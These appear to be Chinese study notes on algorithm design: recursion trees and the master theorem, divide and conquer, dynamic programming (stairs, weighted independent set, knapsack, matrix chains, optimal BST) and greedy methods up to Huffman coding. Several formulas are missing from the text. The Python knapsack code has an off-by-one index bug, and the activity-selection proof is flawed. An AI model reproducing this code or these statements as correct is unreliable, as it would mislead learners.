递归树法是一种分析递归算法复杂度的常用方法，特别适用于分治算法的复杂度分析；通过把递归过程表示为一棵树，分析树的每一层的代价，从而得出整个算法的时间复杂度。以下是递归树法的主要步骤：
-
构建递归树：将递归公式表示为一棵树，其中每个节点代表递归中的一次计算。根节点表示最初调用的递归问题，子节点表示递归调用的子问题，树的深度反映递归的层数。
-
计算每一层的代价：对于递归树的每一层，计算该层所有节点的代价之和。通常，分治算法的每一层的计算量是相同的，或者遵循某种规律。
-
汇总每层的代价：将每一层的代价相加，得到整个递归树的总代价。
-
计算递归树的高度：递归树的高度代表递归调用的深度，通常与问题规模 \(N\) 有关。树的高度可以通过递归公式中的分割因子来确定。
-
总结总的复杂度：根据每层代价的总和以及递归树的高度，可以得出递归的总时间复杂度。
Example
考虑经典的分治算法，例如合并排序，其递归公式为：
应用递归树法的步骤如下：
-
构建递归树：
-
根节点为规模 \(N\) 的问题，分解成两个规模为 \(N/2\) 的子问题。
-
每个子问题进一步分解，直到分解到规模为 1 的问题。
-
计算每一层的代价：
-
第一层的代价是 \(O(N)\)。
- 第二层的两个子问题各自代价为 \(O(N/2)\)，总计 \(O(N)\)。
- 第三层有四个子问题，每个代价 \(O(N/4)\)，总计 \(O(N)\)。
可以看出每一层的代价都是 \(O(N)\)。
-
汇总每层的代价：
-
由于每一层的代价都是 \(O(N)\)，如果递归树有 \( \log N \) 层，那么总代价为 \(O(N \log N)\)。
-
计算递归树的高度：
-
递归树的高度为 \( \log N\)，因为每次将问题规模减半，直到规模为 1。
-
总结总的复杂度：
-
根据每层代价的总和以及树的高度，得到总时间复杂度为 \(O(N \log N)\)。
主定理¶
对于
则
Section
- 如果\(f(n)=O(n^{\log_b a-\epsilon})\),则\(T(n)=\Theta(n^{\log_b a})\)
- 如果\(f(n)=\Theta(n^{\log_b a})\),则\(T(n)=\Theta(n^{\log_b a} \log n)\)
- 如果\(f(n)=\Omega(n^{\log_b a+\epsilon})\),且对于某个常数\(c<1\)和所有足够大的\(n\)有
则\(T(n)=\Theta(f(n))\)
Warning
这三种情况并未覆盖 \(f(n)\) 的所有可能性。情况 1 和情况 2 之间有一定间隙，情况 2 和情况 3 之间也有一定间隙。如果函数 \(f(n)\) 落在这两个间隙中，或者情况 3 中要求的正则条件不成立.就不能使用主方法来求解递归式
Key-point
实际上主定理并不需要死记硬背，无论什么形式的主定理，其实关键都在于比较 \(n^{\log_b a}\) 和 \(f(n)\) 之间的关联，如果前者大，则前者 “掌控了” 整个时间复杂度，所以时间复杂度就是 \(T(n) = aT(n/b)\) 对应的复杂度，这也很符合直观，因为此时 \(a\) 比较大，分叉比较多，树比较大（结合前面递归树的例子），所以更大的复杂度会落在叶子上；反之后者大则每一层的复杂度 “掌控了” 整个时间复杂度，故整体时间就是 \(f(n)\) 级别的。这也就是 “主定理” 这一名字的含义，十分形象，就是看前后两半谁 master 了整体时间复杂度
- 若对于某个常数\(c>1\),有\(af(\frac{n}{b})=cf(n)\),则\(T(n)=\Theta(n^{\log_b a})\)
- 若\(af(\frac{n}{b})=f(n)\),则\(T(n)=\Theta(n^{\log_b a}\log n)\)
- 若对于某个常数\(c<1\),有\(af(\frac{n}{b})=cf(n)\),则\(T(n)=\Theta(f(n))\)
这实际上是形式1的推论，可以直观上来理解一下
- 情况1说明每次分治对于\(f(n)\)的影响很大，将它分得很小，所以复杂度由前半部分控制
- 情况2说明每次分治对于\(f(n)\)的影响适中，将它分得适中，所以复杂度是共同影响
- 情况3说明每次分治对于\(f(n)\)的影响很小，将它分得很大，所以复杂度由后半部分控制
对于递推式
有如下结论：
- 若 \(\log_b a > k\)，则 \(T(n) = \Theta(n^{\log_b a})\)
- 若 \(\log_b a = k\)，则 \(T(n) = \Theta(n^k \log^{p+1} n)\)
- 若 \(\log_b a < k\)，则 \(T(n) = \Theta(n^k \log^p n)\)
这里的主要变化是第二种情况，它相比于原先的形式更加强大，如果按照原来的形式就是\(n^k \log n\),这里在对数的基础上增强了；
- 若 \(\log_b a > k\)，则 \(T(n) = \Theta(n^{\log_b a})\)
- 若 \(\log_b a = k\)，则
- \(p>-1\),\(T(n) = \Theta(n^k \log^{p+1} n)\)
- \(p=-1\),\(T(n) = \Theta(n^k \log \log n)\)
- \(p<-1\),\(T(n) = \Theta(n^k)\)
- 若 \(\log_b a < k\)，则
- \(p \geqslant 0\),\(T(n) = \Theta(n^k \log^p n)\)
- \(p<0\),\(T(n) = \Theta(n^k)\)
分治法的应用¶
回忆梦开始的地方
最大子序列问题¶
最大子序列问题是一个经典的分治算法问题，其目标是找到一个序列中的一个连续子序列，使得该子序列的和最大。即寻找子数组 A[low,high] 的最大子序列和，我们首先找到数组中央位置 mid，这个问题可以通过分治算法来解决，其基本思路是将问题分解成三个子问题,假设目标子序列是\(A[i,j]\)：
- 最大子序列和完全在
A[low,high]中，即 \(low \leqslant i \leqslant j \leqslant mid\)； - 最大子序列和完全在
A[mid+1,high]中，即 \(mid+1 \leqslant i \leqslant j \leqslant high\)； -
最大子序列和跨越
mid两边，即 \(low \leqslant i \leqslant mid < j \leqslant high\)。 -
分治：将原数组平分为两半
A[low, mid]和A[mid + 1, high]，然后分别对这两半求解最大子序列和；一定不能忘记递归有 base case，这里的 base case 就是数组只剩下一个元素，那就什么都不用操作，直接返回进入下一步合并阶段； -
合并：首先我们要计算跨越
mid两边的最大子序列和，然后和左右两半的结果比较，选择最大的作为最终结果。关键在于计算跨越mid两边的最大子序列和，这其实是线性的，为什么？因为这里的子序列都必须跨越mid，所以最大子序列和就是最大的A[i, mid]加上最大的A[mid + 1, j]，这个只需要对i,j做遍历就行，所以是线性的。
那么我们得到的递推公式就是很简单的 \(T(n) = 2T(n/2) + O(n)\)，所以就是 \(O(n \log n)\) 的复杂度。
exstra
归并排序与快速排序的时间复杂度都是\(O(n \log n)\)； 注意快速排序最坏是\(O(n^2)\)， 但是其期望时间复杂度是 \(O(n \log n)\)
逆序对计数¶
逆序数
逆序对计数问题是计算一个数组中逆序对的数量的经典算法问题。在一个数组中，逆序对指的是数组中满足以下条件的一对元素 \((i, j)\)：
- 索引条件：\(i < j\)
- 大小关系：\(A[i] > A[j]\)
换句话说，逆序对是数组中一个较大的数出现在一个较小的数之前的情况。
分治法将问题分为三类
- 全在左半边的逆序对个数
- 全在右半边的逆序对个数
- 跨越中点的逆序对个数
但是跨越中点的逆序对个数看起来似乎有\(\frac{n}{2} * \frac{n}{2}\)种，所以我们每次算完左右两边的逆序对个数后，进行一次merge sort，那么合并过程中计算跨越中点的逆序对个数就只需要线性时间了：在合并两个已排序的子序列的过程中我们就很容易完成逆序对的计算
最近点对问题¶
这是相当经典的应用。同样分为三个部分，左最近点对、右最近点对和分离最近点对，那么关键就在于线性地找到分离最近点对。
我们记 \(x\) 坐标的中点的横坐标为 \(\overline{x}\)，记作左右两半中最近点对距离为 \(\delta\)。因为我们要找分离最近点对，于是只要考虑 \([\overline{x}-\delta, \overline{x}+\delta]\) 之间的所有点 $ q_1, q_2, \cdots, q_n $，它们按 \(y\) 坐标从小到大排序。设 \(q_i\) 的 \(y\) 坐标为 \(y_i\)，那么我们只需要从下往上检查坐标在 \([\overline{x}-\delta, \overline{x}+\delta]\) 和 \([y_i, y_i+\delta]\) 之间的长方形区域中的所有点，考察这些点是否和 \(q_i\) 有更近的点对即可。
我们将这个长方形区域分为平均分割成 8 块，则每块内最多出现一个点（否则每块内两点之间的距离就不超过 \(\dfrac{\sqrt{2}}{2} \delta\) 了，这就与左右两半中最近点对距离为 \(\delta\) 相矛盾），于是对于每个 \(q_i\)，我们至多只需要向上找 7 个点即可。
实际上我们还可以把这 7 个点进一步减少：
-
例如当前我们循环到了一个在左半边的点，那么整个左半边的点都不需要考虑，只需要考虑右半边 4 个格子最多的 4 个点。但要注意的是这种情况你需要提前维护好左右两边各自的按 y 坐标排序的点列，然后要维护 y 坐标紧跟着左半边的每个点的四个右半边的点，对称的右半边也要维护，这并不复杂。
-
再更进一步，我们还可以将 4 这个数字降为 3。因为我们每在右半部分放一个点(\(q_i\) 在右半部分)，那么在右半部分，以这个点为圆心半径为 \(\delta\) 的圆内不可能再有另一个点，事实上最差的情况就是有四个这样的圆心，此时这四个圆心在左半区域的四个角上（\((0,0)\), \((0, \delta)\), \((\delta, 0)\), \((\delta, \delta)\)），这时候毫无疑问的就是 \((0, 0)\) 处的点最好。而其它情况下不可能有四个圆心，只能有三个，那么在最多三个圆心中寻找最近点对，也就只需要遍历 3 个点就足够了
Dynamic Programming¶
约 2994 个字 58 行代码 预计阅读时间 11 分钟
动态规划的由来
动态规划（Dynamic Programming，DP）是一种解决最优化问题的方法，它通过将复杂问题分解为更简单的子问题来求解。这种方法最早由理查德·贝尔曼（Richard Bellman）在1950年代提出，最初是用于解决决策过程中的问题，尤其是在控制论和运筹学领域。
动态规划的基本思想是利用子问题的最优解构造出原问题的最优解。它的由来可以追溯到以下几个关键点：
-
重叠子问题：许多最优化问题可以分解成重叠的子问题，动态规划通过记录子问题的解来避免重复计算。
-
最优子结构：如果一个问题的最优解包含其子问题的最优解，则可以通过解决子问题来构造原问题的解。
-
贝尔曼方程：贝尔曼提出了一个递归关系（即贝尔曼方程），描述了如何通过子问题的解来得到原问题的解。
动态规划的应用广泛，包括背包问题、最短路径问题、最长公共子序列等多个领域，是算法设计中一个非常重要的概念。
引入动态规划-爬楼梯问题¶
Question
假设你正在爬楼梯。需要爬 n 阶你才能到达楼顶。每次你可以爬 1 或 2 个台阶，求有多少种不同的方法爬到楼顶，我们要求算法在线性时间内解决这一问题。
如果我们要使用常规的计数方法或者分治法来计算，其时间复杂度是达不到线性时间的要求的；但是我们可以使用动态规划的方法来解决这个问题。
考虑最后一步，当我们即将到达楼顶时，我们可以选择爬 1 个台阶或者 2 个台阶。如果我们选择爬 1 个台阶，那么前面的 n-1 个台阶有多少种爬法我们已经知道了；如果我们选择爬 2 个台阶，那么前面的 n-2 个台阶有多少种爬法我们也知道了。因此，爬到第 n 阶的方法数就是爬到第 n-1 阶和第 n-2 阶的方法数之和。即：
这就是斐波那契数，然而虽然这个形式是如此优美，代码也是如此简单
但是每一次计算我们都需要计算到最深再返回，这样的时间复杂度是爆炸的；我们可以使用动态规划的方法来解决这个问题，我们可以使用一个数组来保存每一步的结果，这样我们就可以在 O(n) 的时间内解决这个问题。
int fib(int n) {
if (n <= 1) return 1;
vector<int> dp(n+1, 0);
dp[0] = dp[1] = 1;
for (int i = 2; i <= n; i++) {
dp[i] = dp[i-1] + dp[i-2];
}
return dp[n];
}
这一重要的思想我们称其为 “记忆化”，非常形象，因为我们就是利用额外的空间记住曾经算过的结果，从而避免了重复计算的问题。换句话说，原先递归的方法实际上是一种 “自顶向下” 的方法，它符合我们的直接思路：最后长度为 n 的问题需要长度为 n − 1 和 n − 2 的求和，那我们的代码直接利用递归计算递归式显得非常自然。但是重复的计算迫使我们放弃这种自然的想法，转而采用自底向上从小问题逐步迭代构建原问题的解法。
Summary
在爬楼梯这一简单而经典的问题中，通过对最后一步两种情况的分类，将整个问题的解转化为了两个子问题解的求和，即有一个从子问题的解到原问题的解的递推公式，然后我们通过记忆化的方式求解递推式。我们将上述特点抽象出来： 一个问题，它的最优解可以表达为一些合适的子问题的最优解的递推关系，则我们称这一问题具有最优子结构性质(因为大问题的最优解可以直接依赖于小问题的最优解) 。然后我们求解这一递推式，通过设置好 base case（这里我们也用 basecase 指代最简单的情况，但注意这时不是递归了），然后通过记忆化的方法，使用迭代算法而非费时的递归算法避免冗余计算，得到一个时间复杂度令人满意的算法，这就是动态规划的基本想法。
动态规划方法通常用来求解最优化问题（optimization problem）。这类问题可以有很多可行解，每个解都有一个值，我们希望寻找具有最优值（最小值或最大值）的解。我们称这样的解为问题的一个最优解（an optimal solution），而不是最优解（the optimal solution），因为可能有多个解都达到最优值。 我们通常按如下 4 个步骤来设计一个动态规划算法：
- 刻画一个最优解的结构特征；
- 递归地定义最优解的值；
- 计算最优解的值，通常采用自底向上的方法；
- 利用计算出的信息构造一个最优解。
前三个步骤是动态规划算法求解问题的基础。如果我们仅仅需要一个最优解的值，而非解本身，可以忽略最后一个步骤
更精炼地，事实上动态规划就是为一个具有所谓最优子结构性质（即原问题最优解可以由子问题最优解递推得到）的最优化问题寻找一个子问题到原问题的递推式，然后用记忆化方法求解，有时候需要构造这一组解
加权独立集合问题¶
问题引入
你是一个专业的小偷，计划偷窃沿街的房屋。每间房内都藏有一定的现金，影响你偷窃的唯一制约因素就是相邻的房屋装有相互连通的防盗系统，如果两间相邻的房屋在同一晚上被小偷闯入，系统会自动报警。给定一个代表每个房屋存放金额的非负整数数组，计算你不触动警报装置的情况下，一夜之内能够偷窃到的最高金额
问题可以被抽象为
考虑一个无向图 G，其上所有点都在一条线上（这种图我们称其为路径图），每个点都有一个非负权重。我们称 G 的独立集合是指顶点互不相邻的子集（换句话说独立集合不会同时包含一条边上的两个点），然后要求解一个具有最大顶点权重和的独立集合。
简单例子

在这个图中有 8 个独立子集：
- 空集
- 四个单点集
- 第 1 和第 3 个点
- 第 1 和第 4 个点
- 第 2 和第 4 个点
其中最大的独立集合显然是第 2 和第 4 个点构成的集合，其权重和为 8，即小偷的最优选择是偷 2 和 4 两家，最大收益是 8。需要注意的是，题目的假设中每个顶点都有非负权重，所以最优解的顶点应当是越多越好。
为了构建出这一问题的最优子结构，我们考虑在\(n\)个点，\(n-1\)条边构成的图\(G(V,E)\)中最后一个点\(v_n\) 在不在解当中：
- 如果不在，那么问题的解就是子问题\(G_{n-1}\)的最优解
- 如果在，那么问题的解就是子问题\(G_{n-2}\)的最优解加上\(v_n\)
故设前 \(i\) 个点的最优加权独立集合的权重之和为 \(W_i\)，我们可以写出递推关系：
最后我们可以自底向上构建解
我们在\(O(n)\)复杂度内完成了这一工作
如果我们需要重构出构成最优解有哪一些点，那么可以自顶向下根据递推式来判断当前图的最后一个点是否在解中

背包问题¶
背包问题是一个最最经典的动态规划问题，我们这里首先介绍最基础的背包问题，即 \(0-1\) 背包问题。这 一问题的描述如下：我们有 \(n\) 个物品，每个物品的重量为 \(s_i\)，价值为 \(v_i\)，我们有一个容量为 \(C\) 的背包，我们希望找到一个最优的装载方案，使得背包中的物品总价值最大。这一问题的特点是每个物品你要么不放进包里，要么完整的 \(1\) 个放进去，因此称为 \(0-1\) 背包问题。
这与加权独立集合问题略有不同
- 如果第 \(n\) 个物品不在最优解 \(S\) 中，即最优方案排除了最后一件物品，因此它可以看成仅由前 \(n−1\)个物品组成的子问题的一种可行解决方案
- 如果第 \(n\) 个物品在最优解 \(S\) 中，这种情况只有在 \(s_n \leqslant C\) 时才有意义。类似于加权独立集合问题，我们希望 \(S − \{n\}\) 是前 \(n − 1\) 个物品组成的子问题的最优解，但这显然是错误的！如果 \(S − \{n\}\)就已经把 \(W\)几乎占满，那最后 \(n\) 根本就放不进来了。因此我们需要对子问题的设置略做调整：\(S − \{n\}\) 应当是前 \(n\) 个物品在背包容量为 \(C −s_n\) 的情况下的最优解！因为我们知道 \(n\) 在解中，那么除去 \(n\) 之外的其它解的重量之和最多就是 \(C − s_n\)，因此 \(S − \{n\}\) 应当是前 \(n\) 个物品在背包容量为 \(C − s_n\)的情况下的可行解
所以
def knapsack(weights, values, capacity):
n = len(weights)
dp = [[0] * (capacity + 1) for _ in range(n + 1)]
for i in range(1, n + 1):
for c in range(capacity + 1):
if weights[i] > c: #如果当前物品的重量大于背包容量,不用再考虑
dp[i][c] = dp[i-1][c]
else:
dp[i][c] = max(dp[i-1][c], dp[i-1][c-weights[i-1]] + values[i-1])
return dp[n][capacity]
解的重构

矩阵乘法的计算顺序¶
我们考虑矩阵链相乘 \( M_1M_2 \cdots M_n \)，每个矩阵的大小为 \( r_{i-1} \times r_i \)。记
显然前面的三个问题给我们了不少的经验：我们应当考虑最后一个矩阵，然后依据这一矩阵可能的相乘方式划分最优解的可能性。很简单的，第一种情况对应我们的计算方式是 \( M_{1,n-1} \cdots M_n \)，即先用算前 \( n-1 \) 个矩阵相乘的最优方式计算前 \( n-1 \) 个矩阵的乘积，最后与 \( M_n \) 相乘；第二种情况的计算方式是 \( M_{1,n-2} \cdots M_{n-1}M_n \)，即先用算前 \( n-2 \) 个矩阵相乘的最优方式计算前 \( n-2 \) 个矩阵的乘积，最后与 \( M_{n-1}M_n \) 的结果相乘。这是根据我们前面的问题的经验得到的，和表述完全一致，但事实上真的只有这两种情况吗？显然不是的！注意，请回到我们分类的根源来看：我们此时分类的依据是 \( M_n \) 的计算方式，那么对于如下乘积形式：
只要是不同的 \( i \) ，我们就可以得到不同的计算方式
因此，我们自顶向下寻找最优解时，应该考虑对于一个无序矩阵，我们的第一刀应该切在哪个地方
前两项代表左右子问题的解，最后一项代表合并的代价，更具体的，我们有
void OptMatrix( const long r[ ], int N, TwoDimArray M )
{ int i, j, k, L;
long ThisM;
for( i = 1; i <= N; i++ ) M[ i ][ i ] = 0; //base case
for( k = 1; k < N; k++ ) /* k = j - i */
for( i = 1; i <= N - k; i++ ) { /* For each position */
j = i + k; M[ i ][ j ] = Infinity;
for( L = i; L < j; L++ ) {
ThisM = M[ i ][ L ] + M[ L + 1 ][ j ]
+ r[ i - 1 ] * r[ L ] * r[ j ];
if ( ThisM < M[ i ][ j ] ) /* Update min */
M[ i ][ j ] = ThisM;
} /* end for-L */
} /* end for-Left */
}
代码解释
- 参数:
r是矩阵链的维度数组，N是矩阵链的长度，M是动态规划的结果表。 - 初始化base case：
for( i = 1; i <= N; i++ ) M[ i ][ i ] = 0;-
这一步将矩阵
M的对角线元素设为 0，因为单个矩阵的乘法代价为零。 -
填充动态规划表：
for( k = 1; k < N; k++ )：k表示当前考虑的矩阵链长度。for( i = 1; i <= N - k; i++ )：i是链的起始位置。j = i + k;：j是链的结束位置。M[ i ][ j ] = Infinity;：初始化M[i][j]为无穷大，表示尚未计算出最小代价。for( L = i; L < j; L++ )：L是可能的分割点。ThisM = M[ i ][ L ] + M[ L + 1 ][ j ] + r[ i - 1 ] * r[ L ] * r[ j ];- 计算从
i到L和从L+1到j的乘法代价，加上合并两个结果矩阵的代价。
- 计算从
if ( ThisM < M[ i ][ j ] ) M[ i ][ j ] = ThisM;- 如果计算出的代价小于当前存储的代价，则更新
M[i][j]。
- 如果计算出的代价小于当前存储的代价，则更新
时间复杂度：\(O(n^3)\)，其中 \(n\) 是矩阵链的长度。
解的重构
这一问题重构解的方法如果用和前面的问题一样简单直接的控制方法显然会比较耗时，因为我们每次要比较很多种可能的情况才能重构出解，所以我们需要做一些优化。优化的方法也非常自然，实际上关键就是用一个二维数组记住每个子问题
对应的最优的分点，然后当我们算出问题 \( m_n \) 的最优解及其对应的最优分点后，我们再按左右两半子问题的最优分点，以此类推，用中序遍历的思想将分点输出即可，只需线性时间。
// Function to print the optimal parenthesization
void printOptimalParens(vector<vector<int>>& s, int i, int j) {
if (i == j) {
cout << "A" << i;
} else {
cout << "(";
printOptimalParens(s, i, s[i][j]);
cout << s[i][j];
printOptimalParens(s, s[i][j] + 1, j);
cout << ")";
}
}
最优二叉搜索树¶
Question
这一问题给定如下输入：给定一列单词 \( w_1, w_2, \ldots, w_n \)（它们的顺序已经按字典序排列）和它们出现的固定的概率 \( p_1, p_2, \ldots, p_n \)。问题是要以一种方法在一棵二叉查找树中安放这些单词使得总的期望查找时间最小。
在一棵二叉查找树中，访问深度 \( d \) 处的每一个元素所需要的比较次数是 \( d+1 \)，因此如果 \( w_i \) 被放在深度 \( d_i \) 上，那么我们期望将 \( \sum_{i=1}^{N} p_i (1 + d_i) \) 极小化。
使用贪心和AVL等算法不一定可行，使用分治法又需要首先知道最优根节点在哪里，所以我们使用动态规划的方法来解决这个问题。
如果我们知道最优根节点\(w_k\),那么在整个问题的最优解中，由于事先已经按照字母序排好，左子树必然是\(w_1 \cdots w_{k-1}\) 的最优解，右子树也必然是\(w_{k+1} \cdots w_n\) 的最优解，因此我们可以得到递推关系
其中\(p_k\)代表权重，\(c_{ij}\)代表从\(i\)到\(j\)的最优成本，\(c_{i,k-1}\)代表左子树的最优成本，\(c_{k+1,j}\)代表右子树的最优成本。
前面第一项是因为由于根节点的存在，所有的节点都加深一层，是两个子问题结合的结果，后面的项是左右子树的最优解。

这个算法是\(O(n^3)\)的，但是可以优化到\(O(n^2)\)
Greedy Algorithm¶
约 3024 个字 56 行代码 预计阅读时间 11 分钟
贪心算法保证每次选择都是局部最优的，如果局部最优也是全局最优，那么贪心算法就是正确的。
活动选择问题¶
问题描述
给定一个活动集合 \(S = \{a_1, a_2, \ldots, a_n\}\)，其中每个活动 \(a_i\) 都有一个开始时间 \(s_i\) 和结束时间 \(f_i\)，且 \(0 \leqslant s_i < f_i < \infty\)。如果活动 \(a_i\) 和 \(a_j\) 满足 \(f_i \leqslant s_j\) 或 \(f_j \leqslant s_i\)，则称活动 \(a_i\) 和 \(a_j\) 是兼容的（即二者时间不会重合）。活动选择问题就是要找到一个最大的兼容活动子集。
动态规划
我们假设输入中是按照 \(n\) 个活动结束时间从小到大排列的。可以设计出两种动态规划的递推式来解决这个问题：
- 设 \(S_{ij}\) 表示活动 \(a_i\) 和 \(a_j\) 之间的最大兼容活动集合（开始时间在 \(a_i\) 结束之后，结束时间在 \(a_j\) 开始之前），其大小记为 \(c_{ij}\)，那么我们有
这一解法的思想更接近矩阵乘法顺序问题，我们会选择中间的最优解然后分为左右子问题递归。
- 设 \(S_i\) 表示活动 \(a_1, a_2, \ldots, a_i\) 的最大兼容活动集合，其大小记为 \(c_i\)，那么我们有
其中 \(k(i)\) 表示在 \(1 \leqslant k \leqslant i\) 中，\(f_k \leqslant s_i\) 且\(c_k\)最大的\(k\),即不与\(a_i\)冲突的最晚结束的活动这一思想更接近背包问题的思路，即我们考虑最后一个是否在解中，分成两种情况考虑。
Property
两种动态规划的时间复杂度都是 \(O(n^3)\)，可以优化为 \(O(n^2)\)。
贪心算法
很多时候使用贪心只需要一次遍历就能找到最优解，这里我们可以使用贪心算法来解决活动选择问题。
我们依次排好序后选择 不冲突的结束时间最早的事件(或者从后往前看依次选择不冲突的开始时间最晚的事件) 加到最优解中
Proof
假设 \(a_k\) 是 \(a_1, a_2, \ldots, a_n\) 中结束时间最早的活动，那么 \(a_k\) 一定是某个最大兼容活动子集的一部分。因为如果 \(a_k\) 不在最大兼容活动子集中，那么我们可以将 \(a_k\) 替换为最大兼容活动子集中的某个活动，这样我们就得到了一个更大的兼容活动子集，这与我们的假设矛盾。
Property
如果活动已经排好序排序，那么贪心算法的时间复杂度是 \(O(n)\)。
否则需要排序，时间复杂度是 \(O(n \log n)\)。
Extra
-
加权活动选择问题：每个活动 \(a_i\) 都有一个权重 \(w_i\)，我们要找到一个最大权重的兼容活动子集。
此时动态规划仍然可行，但是贪心算法不可行；
-
区间调度问题：我们现在的问题不再是最大化兼容集合的大小或者权重，而是所有活动都必须举办，考虑将所有活动分配到最少的教室中，使得每个教室内的活动不冲突。
我们可以用贪心算法解决这个问题:将所有活动按照开始时间排序，设置初始教室数量为 1，然后从前往后遍历。每次选择一个活 动时，我们都看当前的教室中的活动有没有不冲突的，如果有就直接放进对应的教室，如果全部冲突则新开一个教室

(a) 展示了一个例子,我们可以看到最多同一时间有三个活动那同时进行，所以我们需要三个教室，如果需要四个教室，说明至少某一时刻有四个活动同时进行，这是不可能的。
(b) 展示了一个贪心算法的实现，我们可以看到从前往后，我们首先选择a,b,c,发现三个活动同时进行，所以开出三个教室，然后到e，d，发现其可以放进不冲突的c，a教室中，以此类推，最后用三个教室解决问题
调度问题¶
问题描述
假设我们现在有 \(n\) 个任务，每个任务 \(i\) 都有一个正的完成需要的时间 \(li\) 和一个权重 \(wi\)。假定我们只能按一定顺序依次执行这些任务，不能并行。很显然的，我们有 \(n!\) 种调度方法，我们记 \(\sigma\) 为某一种调度，那么在调度 \(\sigma\) 中，任务 \(i\) 的完成时间 \(Ci(\sigma)\)是 \(\sigma\) 中在 \(i\) 之前的任务长度之和加上 \(i\) 本身的长度。换句话说，在一种调度中，一个任务的完成时间 就是这个任务从整个流程开始到它自己被执行完毕总共执行的时间。我们的目标是最小化加权完成时
我们运用贪心算法来解决这个问题，首先，如果它们权重一样，那么我们每次都选择时间最短的任务。如果时间一样，我们可以将任务按照权重排序，然后依次选择权重最大的。那么现在我们要同时考虑权重最大，时间最短的任务：
-
计算每个任务的\(w_i-l_i\),从大到小降序调度任务(\(l_i-w_i\),从小到大)
-
\(\dfrac{w_i}{l_i}\),从大到小降序调度任务(\(\dfrac{l_i}{w_i}\),从小到大)
Eg
有两个任务，\(l1 = 5, l2 = 2, w1 = 3, w2 = 1\)两种方法会返回不同的结果，而第二种才能返回最优解。
当然这只能说明第一种必然是错误的，对于第二种的正确性仍然需要证明。
Proof
调度问题的贪心选择性质 令 \(i\) 是当前 \(w_i / l_i\) 最大的任务，则在当前问题下，必一定存在将 \(i\) 排在首位的最优调度方式。
我们仍然使用“交换参数法”：假设有一个最优解 \(C\)，如果它的第一个任务是 \(i\)，结论成立。如果不是，我们考虑将 \(i\) 不断与前一个任务交换，直到换到第一个位置的过程。假设现在排在 \(i\) 前面的一个任务是 \(j\)，我们知道一定有
又所有数都正，故有 \(w_i l_j - w_j l_i \geqslant 0\)。不难看出，\(i\) 和 \(j\) 交换前后其它的任务加权时间完全没有变化。变化仅在于 \(i\) 和 \(j\)。设在 \(i\) 前面的总时间为 \(t\)，则交换前 \(i\) 和 \(j\) 的加权时间和为
交换后为
二者作差化简有
故由：往前换，加权时间和一定不会变大，故仍然保证最优解。那么我们就可以不断把 \(i\) 往前换，直到它在第一个位置，这样就证明了贪心选择性质。
调度问题的最优子结构 在调度问题 \(S\) 中，我们用贪心策略选出 \(w_i / l_i\) 最大的 \(i\) 对应的任务后，剩下的子问题 \(S_1\)（即在除去 \(i\) 的任务中寻找一个最小化加权完成时间之和的解）的最优解 \(C_1\) 和 \(i\) 一起一定构成了原问题的一个最优解 \(C\)。
和贪心选择问题完全一致，非常通过的结论就是用反证法想法：如果 \(C\) 不是最优解，那么必定有一个最优解 \(C'\)，它对应的加权完成时间记为 \(T'< T\)，其中 \(T\) 是 \(C\) 对应的加权完成时间之和。
根据贪心选择性质，如果把 \(C'\) 中的 \(i\) 不断通过相邻交换换到第一个位置，情况一定不会变差，因此得到解 \(C''\)，我们将这一过程的最优记为 \(C''\)。于是 \(C''\) 在选择了 \(i\) 之后，剩下的选择实际也是\(S_1\)的一个解，，由于 \(T′ < T\)，这表明 \(C''\) 中对应的 \(S1\) 的解必定比 \(C1\) 更好，但我们知道 \(C1\) 是最优解，因此得到矛盾。所以 \(C1\) 和 \(i\) 一起一定构成了原问题的一个最优解 \(C\)。综上以反证法，我们最终得以验证了问题的最优解可以通过贪心 + 最优子结构的方式得到。
Extra
-
最小化最大延时:设有 \(n\) 个任务，每个任务 \(j\) 具有一个完成需要的时间 \(t_j\)，以及一个截止日期 \(d_j\)。我们只能依次完成这些任务，不能并行
三个任务长度分别为 1、2、3，截止日期分别为 2、4、6，按如图方式排序，所有任务都能在截止前完成。
-
按照用时排序，用时短的先完成；这种做法是错误的，因为用时短的任务有可能截至日期很长
-
按照\(d_j-t_j\)从小到大排序，这似乎看起来正确，但是实际上也是错误的，例如任务1用时1天，3天后截至，任务2用时10天，11天后截至，这样排序后任务2会在截至日期前完成，但是任务1会在截至日期后完成；
-
-
实际上上面两种思路出现了矛盾，对于第一种，完成时间短的应该早完成，在第二种思路中，完成时间短的，冗余时间反而大，应该晚完成；这就陷入了一个尴尬的境地，我们不知道\(t_j\)应该被如何考虑----答案是我们不需要考虑，我们只需要考虑\(d_j\)即可，我们可以将任务按照截至日期排序，然后依次完成。
Huffman 编码¶
离散没学懂的，弥补一下
哈夫曼编码希望找到一个字母表的期望长度最小（依据字母出现频率）的前缀编码，在之前最优二叉搜索树的讨论中我们似乎有一个类似的目标，但那里我们是希望最小化搜索的期望时间，并没有前缀编码的需求。事实上，哈夫曼编码具有非常强的信息论背景。
信息熵与前缀编码¶
对于一个离散型随机变量\(X\)，其信息熵定义为
Note
在平均意义下，信息熵可以理解为对于一个随机变量 \(X\)，我们需要多少比特来表示它。
Eg
- 考虑一个服从均匀分布且有 32 种可能取值的随机变量 X。为了确定一个结果，需要一个能容纳 32 个不同值的标识，因此用 5 个比特足矣。而其信息熵为
- 有 8 匹马参加的一场赛马比赛，它们的获胜概率分别为
假定我们要把哪匹马会赢的信息告诉给别人，其中一个策略是发送胜出的马的编号，这样对于任何一匹马都需要 3 个比特。但由于概率不是均等的，明智的方法是对概率大的马用更短的编码，对概率小的马用更长的编码。例如使用以下编码：0, 10, 110, 1110, 111100, 111101, 111110, 111111，这样平均每匹马需要 2 个比特，比等长的比特数更短。
算法描述¶
我们以二叉树的形式来构建编码树，信息都存储在叶子节点上，非叶子节点不存储信息。从根节点到叶子节点的路径上的 0 和 1 分别代表左右子树。

例如我们要编码一串\(aaaxuaxz\)像这样的一颗树，a的前缀编码是00，u是01，等等。
如果某个字符在深度为 \(d\) 的位置，那么它的编码长度为 \(d\)，其出现的频率为 \(f\)，那么它的总编码长度为 \(f \cdot d\)。我们的目标是最小化所有字符的总编码长度。
如果根据频率来编码，我们可以构建这样一颗树

构造哈夫曼编码树
具体来说，我们可以这样构造哈夫曼编码树
构造哈夫曼编码树的具体步骤：
- 统计频率：
给定一组待编码的字符，每个字符都有一个出现频率（或者权重）。首先，需要统计每个字符的频率。
- 创建优先队列（最小堆）：
根据字符的频率，将所有字符作为节点，并将它们放入一个优先队列（最小堆）中。堆中的每个元素是一个节点，节点的值为字符的频率。优先队列保证每次能够快速取出频率最小的两个节点。
- 构建哈夫曼树：
